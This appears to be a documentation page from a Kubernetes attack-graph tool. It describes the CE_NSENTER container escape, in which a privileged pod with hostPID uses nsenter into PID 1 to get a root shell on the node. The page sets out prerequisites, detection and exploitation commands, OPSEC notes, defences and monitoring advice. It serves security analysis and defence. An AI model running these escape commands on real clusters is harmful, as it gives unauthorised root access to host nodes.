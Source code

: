 # CE_NSENTER

Container escape via the nsenter built-in linux program that allows executing a binary into another namespace.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

When both `hostPID: true` and `privileged: true` are set, the pod can see all of the processes on the host, and you can enter the init system (PID 1) on the host, and execute your shell on the node 

## Prerequisites

Execution within a container process created with `--privileged` AND the `--pid=host` enabled.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_NSENTER.yaml).

## Checks

There is no straightforward way to detect if `hostPID` is activated from a container. The only way is to detect host program running from a pod. The most common way is to look for the `kubelet` binary running:

```bash
ps -ef | grep kubelet
```

## Exploitation

`nsenter` is a tool that allows us to enter the namespaces of one or more other processes and then executes a specified program. When you exec a binary into a container using the docker exec command:

```bash
docker exec -it --user root <container name> sh
```

You could do the same with nsenter:
+ Target a specific container
+ Look for PID of the targetted container
+ Execute `nsenter` of this specific PID and ask for all namespaces

```bash
docker ps | grep <container name>
CONTAINER_PID=$(docker inspect <container name> --format='{{ .State.Pid }}')
sudo nsenter -t $CONTAINER_PID -m -u -n -i -p sh
```

So to escape from a container and access the pod you just run, you need to target running on the host as root (PID of 1 is running the init for the host) ask for all the namespaces:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

The options `-m -u -n -i -p` are referring to the various namespaces that you want to access (e.g mount, UTS, IPC, net, pid).

## OPSEC Considerations

[Cloud Security Management](https://app.datadoghq.com/security/workload/rules?query=type%3Aworkload_security&deprecated=hide&groupBy=tactic&product=cws&sort=rule_name) does not currently detect this attack.

[Cloud Security Posture Management](https://docs.datadoghq.com/security/cspm/) detects this misconfiguration from the OutOfTheBox (OOTB) rules:
+ [Limit admission of containers sharing the host PID namespace](https://docs.datadoghq.com/security/default_rules/cis-kubernetes-1.5.1-5.2.2/)

## Defences

+ Implement least privilege
+ Avoid running privileged pods.

## Monitoring

+ Monitor for the use of the nsenter binary.
+ Monitor the `setns` syscall

## Calculation

[EscapeNsenter](../../pkg/kubehound/graph/edge/escape_nsenter.go)

## References:

+ [nsenter(1) - Linux manual page](https://man7.org/linux/man-pages/man1/nsenter.1.html)
+ [Docker Breakout / Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privileged-+-hostpid)
+ [Debugging containers using nsenter](https://jaanhio.me/blog/nsenter-debug/)

